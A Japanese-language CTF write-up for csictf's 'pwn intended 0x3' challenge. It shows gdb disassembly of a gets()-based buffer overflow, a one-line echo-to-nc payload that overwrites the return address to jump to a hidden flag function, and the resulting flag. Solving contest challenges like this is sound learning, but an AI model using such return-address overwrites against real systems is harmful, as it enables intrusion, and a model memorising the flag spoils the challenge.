 # pwn intended 0x3:Pwn:XXXpts<!--XXX-->
Teleportation is not possible, or is it?  
nc chall.csivit.com 30013  
[pwn-intended-0x3](pwn-intended-0x3)  

# Solution
pwn-intended-0x3が渡されるのでgdbで見てみる。  
```bash
$ gdb pwn-intended-0x3
~~~
gdb-peda$ disass main
Dump of assembler code for function main:
   0x0000000000401166 <+0>:     push   rbp
   0x0000000000401167 <+1>:     mov    rbp,rsp
   0x000000000040116a <+4>:     sub    rsp,0x20
   0x000000000040116e <+8>:     mov    rax,QWORD PTR [rip+0x2eeb]        # 0x404060 <stdout@@GLIBC_2.2.5>
   0x0000000000401175 <+15>:    mov    esi,0x0
   0x000000000040117a <+20>:    mov    rdi,rax
   0x000000000040117d <+23>:    call   0x401040 <setbuf@plt>
   0x0000000000401182 <+28>:    mov    rax,QWORD PTR [rip+0x2ee7]        # 0x404070 <stdin@@GLIBC_2.2.5>
   0x0000000000401189 <+35>:    mov    esi,0x0
   0x000000000040118e <+40>:    mov    rdi,rax
   0x0000000000401191 <+43>:    call   0x401040 <setbuf@plt>
   0x0000000000401196 <+48>:    mov    rax,QWORD PTR [rip+0x2ee3]        # 0x404080 <stderr@@GLIBC_2.2.5>
   0x000000000040119d <+55>:    mov    esi,0x0
   0x00000000004011a2 <+60>:    mov    rdi,rax
   0x00000000004011a5 <+63>:    call   0x401040 <setbuf@plt>
   0x00000000004011aa <+68>:    lea    rdi,[rip+0xe57]        # 0x402008
   0x00000000004011b1 <+75>:    call   0x401030 <puts@plt>
   0x00000000004011b6 <+80>:    lea    rax,[rbp-0x20]
   0x00000000004011ba <+84>:    mov    rdi,rax
   0x00000000004011bd <+87>:    mov    eax,0x0
   0x00000000004011c2 <+92>:    call   0x401060 <gets@plt>
   0x00000000004011c7 <+97>:    mov    eax,0x0
   0x00000000004011cc <+102>:   leave
   0x00000000004011cd <+103>:   ret
End of assembler dump.
```
BOFはあるが、どこへ飛ばせばいいか不明である。  
flag関数がないか決め打ちで実行するとあった。  
objdumpすればすぐに見つかる。  
```bash
gdb-peda$ disass flag
Dump of assembler code for function flag:
   0x00000000004011ce <+0>:     push   rbp
   0x00000000004011cf <+1>:     mov    rbp,rsp
   0x00000000004011d2 <+4>:     lea    rdi,[rip+0xe5f]        # 0x402038
   0x00000000004011d9 <+11>:    call   0x401030 <puts@plt>
   0x00000000004011de <+16>:    lea    rdi,[rip+0xe7b]        # 0x402060
   0x00000000004011e5 <+23>:    call   0x401050 <system@plt>
   0x00000000004011ea <+28>:    mov    edi,0x0
   0x00000000004011ef <+33>:    call   0x401070 <exit@plt>
End of assembler dump.
```
0x00000000004011ceへ飛ばしてやればいいので以下のようにリターンアドレスを書き換える。  
```bash
$ echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xce\x11\x40\x00\x00\x00\x00\x00" | nc chall.csivit.com 30013
Welcome to csictf! Time to teleport again.
Well, that was quick. Here's your flag:
csictf{ch4lleng1ng_th3_v3ry_l4ws_0f_phys1cs}
```
flagが出てきた。  

## csictf{ch4lleng1ng_th3_v3ry_l4ws_0f_phys1cs}